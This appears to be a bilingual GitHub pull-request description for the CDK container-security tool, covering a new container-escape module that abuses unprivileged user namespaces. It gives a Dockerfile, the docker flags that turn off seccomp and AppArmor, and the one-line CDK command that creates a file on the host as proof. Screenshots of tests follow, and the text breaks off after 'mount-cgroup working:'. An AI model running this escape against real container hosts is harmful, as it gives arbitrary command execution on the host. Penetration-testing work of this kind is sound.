 使用下列 DockerFile 或任意常规镜像启动容器，注意关闭 SELinux 和 Seccomp：

Use the following DockerFile or any frequently-used Image to boot a container, disable SELinux and Seccomp:

DockerFile:
```
FROM ubuntu:21.04
LABEL MAINTAINER kmahyyg<16604643+kmahyyg@users.noreply.github.com>

RUN echo "nameserver 223.5.5.5" > /etc/resolv.conf
RUN sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list && \
    apt update -y && \
    apt install -y ca-certificates wget curl nano strace ltrace socat libcap2-bin && \
    rm -rf /var/cache/apt

CMD ["/bin/bash", "-c", "sleep 9999"]
```

使用下列附加参数启动容器并接入 Shell：

Use the following extended params to boot a new container and get a shell inside: 

```
--security-opt "seccomp=unconfined" --security-opt "apparmor=unconfined"
```

容器内部运行 CDK 工具，

Run CDK inside the container:

`./cdk run abuse-unpriv-userns "touch /root/hacked"`

看到宿主机存在 `/root/hacked` 即为攻击成功，攻击者可在宿主机执行任意命令。

When you see `/root/hacked` on host, which means exploit successfully, you could execute any command on host as you wanted.

<img width="1201" alt="CleanShot 2022-03-10 at 02 00 34@2x" src="https://user-images.githubusercontent.com/16604643/157502808-23ca812e-7f2e-4ac3-ae46-d54ec3c55886.png">

## Test

Robustness of validating user input:

<img width="731" alt="CleanShot 2022-03-10 at 12 50 34@2x" src="https://user-images.githubusercontent.com/16604643/157591929-639dfa9f-0456-4213-a507-6efb60609d88.png">

Auto detection of available cgroup:

Detect `misc`:

<img width="813" alt="CleanShot 2022-03-10 at 12 59 22@2x" src="https://user-images.githubusercontent.com/16604643/157592809-f16f5abc-121c-4103-8481-b298cd828188.png">

Detect `rdma`:

<img width="803" alt="CleanShot 2022-03-10 at 13 14 52@2x" src="https://user-images.githubusercontent.com/16604643/157594356-81d17e18-ec1a-447c-aab5-f50c86ae8c0a.png">


`mount-cgroup` working:
